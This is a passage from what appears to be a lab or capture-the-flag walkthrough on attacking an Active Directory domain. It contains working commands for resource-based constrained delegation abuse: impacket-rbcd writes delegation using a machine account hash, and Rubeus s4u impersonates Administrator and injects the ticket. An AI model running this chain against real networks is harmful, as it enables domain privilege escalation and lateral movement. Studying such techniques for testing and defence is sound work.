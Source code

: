 &#x20;Now with the generic all permission i can shell on the machine thanks to the

using impacket i can create a new machine to abuse that functionatility and assign it the delegation

{% code overflow="wrap" %}
```
impacket-rbcd -delegate-from 'sql$' -delegate-to 'web$' -dc-ip '192.168.58.20' -action 'write' 'academy/sql$' -hashes 'aad3b435b51404eeaad3b435b51404ee:bc97a8db7f565a18bbb3b2b4eaefb95a'
```
{% endcode %}

<figure><img src="../.gitbook/assets/Pasted image 20240315162047.png" alt=""><figcaption></figcaption></figure>

and on sql request and import a TGT to access web

{% code overflow="wrap" %}
```powershell
./rubeus.exe s4u /user:sql$ /aes256:97cca7c99f8b4ab7f11e0d5227e628e504b41f2376aba073b920531e830a58f1 /impersonateuser:Administrator /msdsspn:wsman/web /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt
```
{% endcode %}
